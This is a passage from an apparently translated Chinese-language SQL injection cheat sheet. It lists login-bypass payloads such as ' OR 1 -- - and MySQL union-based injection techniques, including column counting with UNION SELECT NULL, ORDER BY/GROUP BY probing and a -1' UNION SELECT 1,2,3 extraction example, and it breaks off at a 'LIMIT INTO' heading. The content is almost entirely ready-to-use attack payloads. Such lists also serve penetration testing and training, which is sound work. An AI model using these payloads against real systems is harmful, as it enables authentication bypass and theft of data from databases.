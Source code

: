 * **登录**: 查询如 `SELECT * FROM Users WHERE username = 'FUZZ1' AND password = 'FUZZ2';`

    ```ps1
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    '='
    'LIKE'
    '=0--+
    ```

## MYSQL 联合基于

### 检测列数

为了成功执行基于联合的 SQL 注入，攻击者需要知道原始查询中的列数。

#### 迭代 NULL 方法

系统地增加 `UNION SELECT` 语句中的列数，直到负载执行无误或产生可见变化。每次迭代检查列数的兼容性。

```sql
UNION SELECT NULL;--
UNION SELECT NULL, NULL;-- 
UNION SELECT NULL, NULL, NULL;-- 
```

#### ORDER BY 方法

持续增加数字，直到收到 `False` 响应。尽管 `GROUP BY` 和 `ORDER BY` 在 SQL 中有不同的功能，但它们都可以以完全相同的方式用于确定查询中的列数。

| ORDER BY        | GROUP BY        | 结果 |
| --------------- | --------------- | ---- |
| `ORDER BY 1--+` | `GROUP BY 1--+` | True |
| `ORDER BY 2--+` | `GROUP BY 2--+` | True |
| `ORDER BY 3--+` | `GROUP BY 3--+` | True |
| `ORDER BY 4--+` | `GROUP BY 4--+` | False |

由于 `ORDER BY 4` 的结果为假，这意味着 SQL 查询只有 3 列。
在基于联合的 SQL 注入中，你可以通过 `-1' UNION SELECT 1,2,3--+` 来 `SELECT` 任意数据并在页面上显示。

类似于前面的方法，如果启用了错误显示，我们可以在一个请求中检查列数。

```sql
ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+ # 未知列 '4' 在 'order 子句'
```

#### LIMIT INTO 方法
